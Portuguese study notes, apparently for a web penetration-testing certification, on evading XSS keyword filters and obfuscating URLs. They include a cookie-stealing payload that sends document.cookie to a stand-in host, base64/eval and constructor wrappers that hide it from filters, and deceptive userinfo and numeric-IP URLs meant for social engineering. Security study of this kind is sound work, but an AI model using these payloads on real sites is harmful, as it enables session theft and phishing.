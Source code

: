 # Base64 Encoding Evasion

A maioria dos sistemas de detecção utilizam o regex para encontrar palavras maliciosas. Imaginando que quero evadir de um sistema que procura pelas palavras: eval, alert, prompt, document.cookie

Normalmente se usa:
```JavaScript
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Ele não vai funcionar por causa do "document.cookie", uma alternativa seria:
```JavaScript
eval(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=""))
```

Para esse exemplo também não vai funcionar por causa do "eval", outra possibilidade seria:
```JavaScript
[].constructor.constructor(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=""))()
```

Outros métodos válidos:
```JavaScript
setTimeout("code")    # Todos os navegadores
setInterval("code")   # Todos os navegadores
setImmediate("code")  # IE 10+
Function("code")()    # Todos os navegadores
```
# URI Obfuscation Techiques

Utilizado principalmente para engenharia social, mas também pode ser usado em alguma situação que seja necessário ocultar a url, dar bypass em algum sistema ou diminuir o tamanho do payload
## URL Shortening

Utilizado para encurtar a url, pode-se usar soluções prontas ou criar a sua própria solução

https://yourls.org/  -> Solução Open Source <br>
https://bitly.com/   -> Solução paga

*colocando um '+' ao fim da url encurtada pelo bitly, é possível descobrir mais informações sobre o verdadeiro link*

Outra forma de descobrir o link verdadeiro é realizando um cURL e analisando o header "Location" na resposta
## URL Hostname Obfuscation

Referência para estudo \[RFC 3986]: https://datatracker.ietf.org/doc/html/rfc3986#page-16
### URL Authority Obfuscation

**Obfuscating with Userinfo**

Estrutura da URI segundo a rfc:
```
foo://example.com:8042/over/there?name=ferret#nose
\_/ \________________/\_________/ \_________/ \__/
 |           |             |           |       |
scheme   authority        path       query  fragment
```

O componente Authority pode ter a seguinte estrutura:
```
[ userinfo "@" ] host [ ":" port ]
```

O campo "userinfo" é usado para autenticação em aplicações, seguindo esse exemplo:
```
http://user:pass@o-site-para-autenticar.com.br
```

Quando o site não possui autenticação esse campo é ignorado. Isso permite usar esse campo para ofuscar informações, criando urls como a seguinte:
```
http://www.google.com@hack.me/xss
```

É possível usar caracteres unicode para deixar a url ainda mais convincente

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231226160208.png)

*Navegadores como o Firefox e o Opera, avisam o usuário final do redirecionamento. Já o Chrome não avisa nada*

**Obfuscating with Host**

Um site pode ser acessado tanto por seu endereço DNS como por seu endereço IP, e esse endereço IP pode estar em diferentes formatos, como por exemplo, Dword, Hexadecimal, Octal

Como exemplo, o Google pode ser acessado usando os seguintes endereços:
```
http://google.com
http://216.58.215.78           # IP
http://3627734862              # DWORD
http://0330.0072.0327.0116     # OCTAL
http://0xd83ad74e              # HEXADECIMAL
http://0xd8.0x3a.0xd7.0x4e     # HEXADECIMAL (separado por número)
```

Também é possível criar um endereço híbrido, mesclando dois ou mais formatos

Ferramenta para ajudar na conversão de formatos:

https://www.silisoftware.com/tools/ipconverter.php
